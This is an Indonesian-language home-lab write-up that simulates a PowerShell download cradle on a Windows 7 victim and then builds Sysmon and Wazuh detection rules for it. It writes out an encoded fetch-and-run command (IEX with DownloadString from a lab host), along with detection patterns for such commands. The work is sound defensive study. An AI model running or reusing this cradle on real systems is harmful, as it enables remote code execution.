

# Command and Scripting Interpreter: PowerShell (T1059.001) — Win7 Victim

## Tujuan

Simulasi **execution via PowerShell** di Win7 victim (`10.10.20.10`, LAN2) sesuai MITRE ATT&CK **T1059.001**, lalu amati sinyal apa yang bisa ditangkap **Sysmon** yang baru kita pasang di endpoint ini — lihat setup-nya di [`win7-sysmon.md`](../../../../../Infrastructure/win7-sysmon.md).

Skenario yang ditiru: **download cradle** — PowerShell dieksekusi dengan encoded command yang, begitu di-decode, narik konten dari sebuah web server eksternal via `Net.WebClient.DownloadString`. Ini pola khas malware stage-1: proses di host korban ngehubungi C2 buat minta payload/dropper berikutnya. Kali (`192.168.43.111`) berperan sebagai **staging server / C2 tiruan** yang nyediain file, Win7 sebagai korban yang narik file itu keluar.

Ini lab **assume-breach** — kita gak eksploitasi remote apa-apa. Titik berangkatnya adalah asumsi attacker udah punya cara ngetik command di Win7 (disimulasikan dengan ngetik manual di `cmd.exe`). Fokusnya **deteksi**: begitu command jalan, jejak apa yang muncul, dan seberapa jauh SIEM kita bisa lihat.

Sesuai filosofi lab: **deteksi dulu, bukan eksploitasi.**

---

## Prerequisites

- **Sysmon terpasang & jalan di Win7** dengan config yang ngaktifin **NetworkConnect (event 3)** — lihat [`win7-sysmon.md`](../../../../../Infrastructure/win7-sysmon.md). Config custom schema 2.01 yang kita build dipakai di sini; tanpa event 3 aktif, koneksi outbound ke C2 gak bakal kelihatan.
- **Wazuh Agent di Win7 Active** dan baca channel Sysmon — lihat [`win7-wazuh-agent.md`](../../../../../Infrastructure/win7-wazuh-agent.md).
- **Win7 bisa reach Kali** di jaringan hotspot (`192.168.43.x`). Koneksi Win7 (LAN2) → Kali (WAN/hotspot) nyeberang pfSense sebagai outbound.
- **Kali** siap sebagai web server sederhana (Python `http.server` atau sejenis).

---

## Step-by-Step

### 1. Kali — siapkan payload & serve sebagai web server

Buat file payload dummy (bukan malware asli, cuma penanda buat mastiin download jalan):

```bash
echo "Write-Host 'Simulated payload executed - Lab Test'" > test.txt
python3 -m http.server 4000
```

Port `4000` dipilih sengaja non-standard biar gampang dibedain dari traffic lain di lab.


### 2. Win7 — eksekusi encoded PowerShell via cmd.exe

Dari `cmd.exe` di Win7 (assume-breach: attacker udah bisa ngetik di sini), jalanin:

```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMwAuADEAMQAxADoANAAwADAAMAAvAHQAZQBzAHQALgB0AHgAdAAnACkA
```

Tiga flag yang dipakai punya makna deteksi masing-masing:

| Flag | Fungsi | Kenapa mencurigakan |
|------|--------|---------------------|
| `-NoProfile` | Skip profile PowerShell | Attacker gak mau ke-pengaruh config user, ciri khas eksekusi otomatis |
| `-ExecutionPolicy Bypass` | Lewati execution policy | Klasik — matiin pagar yang harusnya nahan script gak dikenal |
| `-EncodedCommand <base64>` | Jalanin command base64 UTF-16LE | Obfuscation — sembunyiin maksud asli dari mata yang cuma lihat command line sekilas |


### 3. Decode encoded command (dari sisi analis)

Base64 di atas adalah UTF-16LE. Di-decode hasilnya:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.43.111:4000/test.txt')
```

Artinya: `DownloadString` narik konten `test.txt` dari Kali **langsung ke memory** (bukan ke disk), lalu `IEX` (`Invoke-Expression`) langsung meng-eksekusi string itu sebagai kode PowerShell. Inilah inti download cradle — payload gak pernah nyentuh disk sebagai file, jadi deteksi berbasis file scanning kemungkinan besar gak kena.

Cara decode manual (di Kali/Linux):

```bash
echo "SQBFAFgAIA...(base64)...KQA=" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

---

## Verifikasi

### A. Event Sysmon yang tertangkap (Event Viewer, Win7)

Satu eksekusi PowerShell ninggalin rangkaian event ini di channel `Microsoft-Windows-Sysmon/Operational`. Semua di-korelasi lewat **ProcessId 4060** (powershell.exe):

| Event ID | Task | Detail kunci | Waktu (UTC) |
|----------|------|--------------|-------------|
| **1** | Process Create | `powershell.exe` (PID 4060), parent `cmd.exe` (PID 4064), command line lengkap termasuk `-EncodedCommand` | 07:55:15.168 |
| **9** | RawAccessRead | `powershell.exe` (PID 4060) akses raw ke volume | 07:55:15.168 |
| **2** | FileCreateTime | `powershell.exe` (PID 4060) ubah creation-time file di `%TEMP%` | 07:55:15.168 |
| **3** (TCP) | Network Connect | `powershell.exe` (PID 4060) `10.10.20.10:49166` → `192.168.43.111:4000` TCP | 07:55:29.990 |
| **3** (UDP) | Network Connect | `System` (PID 4) `10.10.20.10:137` → `192.168.43.111:137` UDP, netbios-ns | 07:55:42.936 |

**Event 1** adalah sinyal paling kaya. Command line utuh kerekam — termasuk blob `-EncodedCommand` — dan relasi parent-child `cmd.exe → powershell.exe` yang jadi pola khas eksekusi manual/scripted.


### B. Log ke-forward ke Wazuh Manager (Dell)

Event dari Win7 nyampe Manager, kelihatan di `archives.log`:

```bash
sudo grep "WIN7-VICTIM" /var/ossec/logs/archives/archives.log | grep -i powershell
```


> **Disclaimer soal evidence ini:** log Sysmon **berhasil** di-forward ke Wazuh Manager — itu poin utamanya, chain collection jalan. Tapi event yang ke-capture di screenshot `archives.log` ini adalah **run yang berbeda** dari command yang didemokan di Step 2. Kelihatan dari `-EncodedCommand`-nya: blob base64 di sini decode ke `http://192.168.43.111/test.txt` (**port 80**, run pukul 07:42, PID 1712), sedangkan Step 2 dan screenshot koneksi TCP/UDP pakai run yang decode ke `http://192.168.43.111:4000/test.txt` (**port 4000**, run pukul 07:55, PID 4060). Tekniknya identik — cuma URL di dalam payload (jadi base64-nya juga) yang beda antar run. Jadi jangan bingung kalau base64 di screenshot ini gak sama persis dengan yang di Step 2.

---

## Analisis — Dua Pertanyaan yang Muncul Saat Testing

### 1. UDP port 137 (netbios-ns) — apakah itu proses download-nya?

**Bukan.** Bukti dari Sysmon event-nya sendiri:

- Event 3 UDP itu `Image: System`, `ProcessId: 4` — **bukan** `powershell.exe`. Kalau ini bagian dari download, harusnya PID-nya 4060.
- Port 137 = **NetBIOS Name Service**. Ini perilaku Windows yang bikin **node status query** buat nyari tahu nama NetBIOS dari IP `192.168.43.111` yang belum dikenal. Kejadiannya sebagai efek samping Win7 nyoba resolve identitas host tujuan.
- Download yang beneran adalah **event 3 TCP** oleh `powershell.exe` ke port **4000** (port web server Kali) — itu yang bawa data HTTP.

Jadi UDP 137 ini **noise incidental** dari name resolution, bukan transfer payload. Intuisi awal ("sepertinya bukan ya") tepat.

### 2. Event 2 (FileCreateTime) — apakah itu file `test.txt` dari IEX?

**Bukan.** Field `TargetFilename` di event-nya sudah memastikan ini:

```
TargetFilename:          C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\CustomDestinations\4H24X4V7BAVJHUTROEP1.temp
CreationUtcTime:         2026-07-11 15:15:32.352
PreviousCreationUtcTime: 2026-09-15 07:55:15.214
```

Dua alasan kenapa ini **bukan** payload download:

1. **`DownloadString` gak nyentuh disk.** Kontennya ditarik ke memory sebagai string, langsung dieksekusi `IEX`. `test.txt` gak pernah jadi file di Win7 — jadi mustahil dia yang muncul di sini.
2. **Path-nya `Recent\CustomDestinations\*.temp`** — itu file **Jump List** (CustomDestinations), artifact shell Windows yang nyimpen daftar "recent items" per aplikasi. File `.temp` random ini dibuat waktu Windows nulis ulang jump list, dan kebetulan dikreditkan ke `powershell.exe` (PID 4060) karena proses itu yang memicu update recent-items saat di-launch.

Detail yang menarik: `CreationUtcTime` (2026-07-11) **lebih tua** dari `PreviousCreationUtcTime` (2026-09-15) — creation time-nya di-set **mundur**. Sekilas ini persis pola **timestomping** (T1070.006), tapi di sini itu **perilaku sah Windows**: saat nulis jump list, shell sengaja mewarisi timestamp lama ke file temp-nya. Inilah kenapa config Sysmon matang (mis. SwiftOnSecurity) biasanya **meng-exclude** `Recent\CustomDestinations` di FileCreateTime — kalau enggak, tiap launch aplikasi bikin event 2 yang keliatan kayak timestomping padahal noise.

> **Pelajaran deteksi:** event 2 di sini adalah **false-positive-shaped signal**. Rule naif semacam "powershell.exe memicu FileCreateTime = timestomping" bakal nyala tiap kali powershell dijalankan. Ini justru bahan bagus buat ngerti kenapa exclusion di config Sysmon itu penting.


---

## Catatan Deteksi (buat diskusi)

### Event ke-forward, tapi gak ada alert di Wazuh Dashboard

Sama persis dengan temuan pas setup Sysmon Win7: log **sampai** ke Manager (`archives.log`), tapi **gak muncul sebagai alert** di Dashboard.

Soal "level-nya padahal 4" — itu perlu diluruskan. Angka **Level: Information (4)** yang kelihatan di Event Viewer adalah **severity level milik Windows Event Log**, bukan level rule Wazuh. Dua hal beda total:

- **Windows event level** `4` = Information (skala Windows: 1 Critical … 4 Information … 5 Verbose).
- **Wazuh rule level** = skala 0–15 milik Wazuh, yang nentuin apakah sesuatu jadi alert.

Rule bawaan Wazuh buat Sysmon base event (mis. `61603` buat event 1) di-set **Wazuh level 0** = match tapi sengaja gak bikin alert. Jadi walaupun event Windows-nya "Information/4", di sisi Wazuh dia berhenti di level 0 dan gak masuk index `wazuh-alerts-*`. Buat lihat raw event-nya, pakai index pattern `wazuh-archives-*`.

### Keterbatasan visibility di Win7 (PowerShell 2.0)

Win7 cuma punya **PowerShell 2.0**, yang **gak punya Script Block Logging (Event 4104)** — fitur itu baru ada di PowerShell 5.0. Padahal 4104 adalah jalur deteksi PowerShell yang paling umum dipakai karena dia nge-log **isi script yang di-decode**, termasuk hasil de-obfuscation dari `-EncodedCommand`.

Konsekuensinya buat lab ini: di Win7 kita **gak bisa** ngandelin 4104. Yang tersedia buat mendeteksi eksekusi ini:

- **Sysmon Event 1** — command line lengkap (blob `-EncodedCommand` mentah, belum ter-decode) + parent-child.
- **Security 4688** — process creation dengan command line, kalau diaktifkan.

Artinya deteksi harus jalan dari **command-line pattern** (`-EncodedCommand`, `-ExecutionPolicy Bypass`, `DownloadString`) dan **network behavior** (event 3 outbound), bukan dari isi script yang ter-decode.

Gap "gak jadi alert" ini **sudah ditutup** dengan custom rule `100601` (event 1), lalu diperkuat dengan rule korelasi `100602` (event 1 + event 3). Detailnya ada di dua bagian berikutnya.

---

## Custom Detection Rule — 100601

Rule turunan yang naikin Sysmon Event 1 PowerShell-encoded jadi alert level 12. Disimpan di repo: [`Detection-Engineer/wazuh/rule/sysmon_rules.xml`](../../../../../Detection-Engineer/wazuh/rule/sysmon_rules.xml).

```xml
<group name="sysmon,">
    <rule id="100601" level="12">
        <if_sid>61603</if_sid>
        <field name="win.system.eventID" type="pcre2">1</field>
        <field name="win.eventdata.image" type="pcre2">.*\\powershell\.exe</field>
        <field name="win.eventdata.commandLine" type="pcre2">-EncodedCommand</field>
        <field name="win.eventdata.commandLine" type="pcre2">-NoProfile</field>
        <description>Sysmon: Command line execution of powershell.exe with -EncodedCommand and -NoProfile flags detected</description>
        <mitre>
            <id>T1059.001</id>
        </mitre>
        <group>command_injection,command_scripting,</group>
    </rule>
</group>
```

- **`if_sid` 61603** — chain dari rule bawaan Sysmon Event 1 (level 0), jadi decoding-nya diwarisi, rule ini tinggal nambah kondisi.
- **Dua `<field>` di `commandLine`** — di-AND: command line wajib mengandung `-EncodedCommand` **dan** `-NoProfile`. Valid karena satu string bisa memuat dua substring.
- **`win.system.eventID` 1** — redundant sama `if_sid` 61603 (yang udah mastiin event 1); disimpan sebagai self-documenting.

### Pelajaran penting: decoder logtest ≠ decoder produksi

Ini gotcha yang makan waktu paling lama, dan layak dicatat karena gampang ngejebak:

- **`wazuh-logtest` (paste JSON mentah)** → event di-decode pakai decoder **`json`** generik. Rule bawaan Sysmon (`61603`) yang berbasis `windows_eventchannel` **gak fire** di sini — jadi kalau chain ke `61603`, di logtest kelihatan "cuma nyampe decoder".
- **Produksi (agent forward beneran)** → event masuk lewat location `EventChannel` → di-decode pakai decoder **`windows_eventchannel`**. Di sinilah `61603` beneran fire (level 0), dan turunan `100601` ikut fire.

Konsekuensinya: rule ini **gak bisa divalidasi via logtest** (karena logtest pakai `json`, `61603` gak ke-trigger). Validasinya **harus live**. Sempat dicoba pakai parent buatan sendiri `decoded_as json` biar lolos logtest — tapi itu justru bikin rule **bisu di produksi**, karena event live bukan `json`. Jadi keputusan final: chain ke `61603`, validasi langsung di Dashboard.

### Hasil — alert live di Wazuh Dashboard

Setelah rule dipasang di `/var/ossec/etc/rules/sysmon_rules.xml` (Dell) + restart `wazuh-manager`, trigger ulang command di Win7 → alert muncul di index `wazuh-alerts-*`:

| Field | Nilai |
|-------|-------|
| `rule.id` | `100601` |
| `rule.level` | `12` |
| `rule.mitre.id` | `T1059.001` |
| `rule.mitre.tactic` | `Execution` |
| `agent.name` | `WIN7-VICTIM` (`10.10.20.10`) |
| `decoder.name` | **`windows_eventchannel`** ← konfirmasi decoder produksi |
| `location` | `EventChannel` |

Field `decoder.name: windows_eventchannel` di alert live inilah bukti telak yang ngejawab kebingungan decoder di atas.


---

## Custom Correlation Rule — 100602 (Event 1 → Event 3)

`100601` cuma bilang "ada PowerShell encoded yang jalan". Itu belum tentu jahat, karena script admin dan tool deployment juga sering pakai `-EncodedCommand`. Sinyal yang jauh lebih kuat: **proses PowerShell encoded yang sama langsung bikin koneksi keluar**. Itu pola download cradle atau C2 beacon yang ditiru di lab ini. Jadi `100602` mengkorelasikan event 1 (lewat `100601`) dengan event 3 (network connect) yang datang sesudahnya.

```xml
<rule id="100602" level="14" timeframe="60">
    <if_sid>61605, 92101</if_sid>
    <if_matched_sid>100601</if_matched_sid>
    <same_field>win.eventdata.ProcessGuid</same_field>
    <field name="win.eventdata.image" type="pcre2">.*\\powershell\.exe</field>
    <description>Sysmon - Event 3: Network connection to $(win.eventdata.destinationIp):$(win.eventdata.destinationPort) by $(win.eventdata.image) Outbound Connection from Powershell.exe -EncodedCommand before.</description>
    <mitre>
        <id>T1071.001</id>
        <id>T1059.001</id>
    </mitre>
    <group>command_injection,command_scripting,command_and_control,</group>
</rule>
```

| Tag | Fungsi |
|-----|--------|
| `<if_sid>61605, 92101</if_sid>` | Event yang **sedang masuk** harus event 3. Dua parent di sini dibaca **OR**, dan alasannya jadi inti temuan lab ini (lihat bawah). |
| `<if_matched_sid>100601</if_matched_sid>` + `timeframe="60"` | Dalam 60 detik terakhir **harus sudah ada** alert `100601` (encoded PS). |
| `<same_field>` | Ikat event 3 ke proses yang sama dengan event 1 yang di-match. |
| `<field name="win.eventdata.image">` | Koneksinya harus dari `powershell.exe`. |
| Level 14 | Lebih tinggi dari `100601` (12), karena dua sinyal berurutan lebih meyakinkan dari satu. |

`if_sid` dan `if_matched_sid` punya peran berbeda. `if_sid` ngecek event yang **sekarang** masuk (event 3), sedangkan `if_matched_sid` ngecek event yang **sudah terjadi sebelumnya** (event 1 yang jadi `100601`). Jadi korelasi dua rule berbeda bisa dilakukan tanpa ngisi dua-duanya ke `if_sid`.

### Problem: event 3 PowerShell "hilang" sebelum sampai ke rule kita

Versi awal rule ini pakai `<if_sid>61605</if_sid>` saja, dan **gak pernah fire**. Yang bikin bingung, event 3-nya jelas ada:

| Event 3 dari | Ada di `archives.log` | Jadi alert |
|--------------|:---:|:---:|
| `wazuh-agent.exe` → Dell:1514 | ✅ | ✅ |
| `<unknown process>` → Kali:4000 | ✅ | ✅ |
| `powershell.exe` → Kali:4000 | ✅ | ❌ |

Bahkan rule debug paling polos (`level 3`, cuma `<if_sid>61605</if_sid>`, tanpa kondisi lain) tetap gak nangkep event 3 dari PowerShell. Beberapa dugaan dicek satu per satu dan gugur. Bukan `same_field`, bukan urutan event (event 1 masuk Manager 2 detik lebih dulu dari event 3, `eventRecordID` 2529 → 2531), dan bukan rule yang gagal ke-load.

**Root cause:** rule bawaan Wazuh **92101** di `/var/ossec/ruleset/rules/0810-sysmon_id_3.xml`:

```xml
<rule id="92101" level="0">
  <if_group>sysmon_event3</if_group>
  <field name="win.eventdata.image" type="pcre2">(?i)\\powershell\.exe</field>
  <field name="win.eventdata.protocol">^tcp$</field>
  <options>no_full_log</options>
  <description>Powershell process communicating over TCP</description>
  ...
</rule>
```

Rule `61605` (`0595-win-sysmon_rules.xml`) punya `<group>sysmon_event3,</group>`. Karena 92101 pakai `<if_group>sysmon_event3</if_group>`, dia ikut jadi **child 61605**, sejajar dengan rule custom kita. Wazuh ngecek child satu per satu sesuai urutan load, dan **child pertama yang match yang menang**. Rule bawaan di-load sebelum `etc/rules/`, jadi:

```
61605 (event 3, level 0)
 ├─ 92101  (PowerShell + TCP, level 0)   ← dicek duluan, MATCH, berhenti di sini
 └─ 100602 (custom)                      ← gak pernah dicek buat event PowerShell
```

Karena 92101 **level 0**, event-nya gak pernah jadi alert, jadi kelihatan seperti "hilang". Event dari `wazuh-agent.exe` dan `<unknown process>` gak match filter image 92101, makanya dua kasus itu tetap jatuh ke rule custom.

Cara nemunya: grep `<if_sid>61605</if_sid>` di ruleset hasilnya **kosong**. Child-nya baru ketemu setelah grep lewat group:

```bash
sudo grep -rn -A8 'id="61605"' /var/ossec/ruleset/rules/                  # lihat <group> milik 61605
sudo grep -rn -A12 '<if_group>sysmon_event3</if_group>' /var/ossec/ruleset/rules/
```

**Fix:** pasang rule custom di **dua jalur**, `<if_sid>61605, 92101</if_sid>`. Event PowerShell jalannya 61605 → 92101 → **100602**. Event dari proses lain jalannya 61605 → **100602**. Rule bawaan gak perlu diubah sama sekali. 92101 memang dirancang Wazuh sebagai pondasi (level 0, `no_full_log`) buat ditempelin rule lain di bawahnya.

Anak bawaan 92101 juga dicek: **92102** (port `135`, DCOM/RPC) dan **92103** (port `389`, LDAP). Lab ini pakai port `4000`, jadi gak bentrok. Tapi kalau C2 lewat port 135/389, koneksinya bakal berhenti di 92102/92103 dan `100602` gak fire. Gap ini sengaja cuma dicatat dulu sampai ada skenario lab-nya.

> **Pelajaran:** sebelum nulis custom rule di bawah rule bawaan, cek **semua** child parent-nya, lewat `<if_sid>` **dan** `<if_group>` (pakai nama group milik parent). Child bawaan yang lebih spesifik bisa diam-diam "nyerobot" event, apalagi kalau levelnya 0.

### Temuan samping: `ProcessGuid` nol dan `<unknown process>`

Di salah satu run, event 3 dari koneksi PowerShell ke Kali keluar seperti ini:

```
ProcessGuid: {00000000-0000-0000-0000-000000000000}
ProcessId:   3920            ← sama dengan PID event 1
Image:       <unknown process>
```

Sysmon nulis event network **belakangan**. `systemTime` sekitar 1,2 detik setelah `utcTime` koneksinya. Waktu nulis event itu, Sysmon nyari info proses berdasarkan PID. Download cradle umurnya pendek: `IEX ... DownloadString` jalan, lalu PowerShell langsung exit. Dugaannya, prosesnya udah hilang sebelum Sysmon sempat nyari, jadi `Image` dan `ProcessGuid` gak bisa diisi. Yang tetap benar cuma `ProcessId`. Kejadiannya gak selalu: di run lain GUID dan image-nya lengkap.

Konsekuensinya buat `100602` versi sekarang: run seperti ini **gak akan ke-flag**, karena filter `image` powershell gak match `<unknown process>`, dan GUID nol gak sama dengan GUID event 1. Kalau mau nutup gap ini, alternatifnya ikat lewat `same_field win.eventdata.processId` dan buang filter `image`. PID adalah satu-satunya field yang konsisten di dua kondisi, dan dalam jendela 60 detik kecil kemungkinan PID dipakai ulang proses lain.

### Hasil — alert korelasi live di Wazuh Dashboard

Trigger ulang payload yang sama dari Step 2. Di `wazuh-alerts-*` muncul pasangan alert berurutan:

| Field | `100601` (event 1) | `100602` (event 3) |
|-------|--------------------|--------------------|
| Waktu masuk Manager | 21:31:19.441 | 21:31:21.532 |
| `UtcTime` (Sysmon) | 14:31:11.765 | 14:31:12.005 |
| `ProcessGuid` | `{AF48A474-4B2F-6AAD-0000-0010904D1100}` | `{AF48A474-4B2F-6AAD-0000-0010904D1100}` |
| `ProcessId` | 3364 | 3364 |
| `Image` | `powershell.exe` | `powershell.exe` |
| `destinationIp` | — | `192.168.43.111` (Kali) |

Proses yang sama (GUID dan PID identik) bikin koneksi ke Kali **240 ms** setelah dibuat. Di Manager, `100601` tercatat duluan dan `100602` menyusul sekitar 2 detik kemudian, sesuai urutan yang dibutuhkan `if_matched_sid`.



> **Catatan validasi:** run ini membuktikan jalur `100601 → 100602` fire untuk pasangan event yang benar. Yang **belum** diuji terpisah adalah apakah `same_field` benar-benar menolak koneksi dari proses PowerShell **lain** dalam 60 detik yang sama (uji negatif). Perlu diperhatikan juga, decoder eventchannel ngeluarin nama field `processGuid` (huruf `p` kecil), sedangkan rule di atas menulis `ProcessGuid`.

---

## Kesimpulan

Eksekusi PowerShell download-cradle di Win7 berhasil disimulasikan dan **tertangkap Sysmon** dengan jejak yang lengkap: process creation (event 1) dengan command line utuh, koneksi outbound TCP ke C2 tiruan (event 3), plus event pendukung (2, 9) dan noise name-resolution (UDP 137 dari System). Chain pengiriman ke Wazuh Manager terverifikasi lewat `archives.log`.

Gap "gak jadi alert" (rule bawaan level 0) **sudah ditutup** dengan custom rule `100601` — encoded PowerShell execution sekarang naik jadi alert level 12 di Dashboard, ter-map ke T1059.001. Sepanjang jalan ketemu pelajaran mahal: decoder di `wazuh-logtest` (`json`) beda dari decoder produksi (`windows_eventchannel`), jadi rule yang chain ke rule bawaan Sysmon **cuma bisa divalidasi live**, bukan lewat logtest.

Deteksi lalu diperkuat dengan rule korelasi `100602`: encoded PowerShell (`100601`) yang dalam 60 detik bikin koneksi keluar dari proses yang sama naik jadi alert level 14 (T1071.001 + T1059.001). Pelajaran terbesarnya bukan di sintaks korelasi, tapi di **struktur pohon rule**. Rule bawaan 92101 (level 0) nempel ke 61605 lewat `if_group`, lalu diam-diam nangkep semua koneksi TCP PowerShell sebelum rule custom sempat dicek. Fix-nya: pasang rule custom di dua jalur (`61605, 92101`), tanpa ngubah rule bawaan.

Keterbatasan yang tetap berlaku: PowerShell 2.0 di Win7 gak punya Script Block Logging (4104), jadi deteksi bersandar ke command-line pattern (`-EncodedCommand` + `-NoProfile`) — bukan isi script yang ter-decode. Di sisi network, Sysmon kadang gagal ngisi `Image`/`ProcessGuid` di event 3 buat proses yang umurnya pendek (`<unknown process>`), jadi korelasi berbasis GUID dan image bisa bolong di run seperti itu.
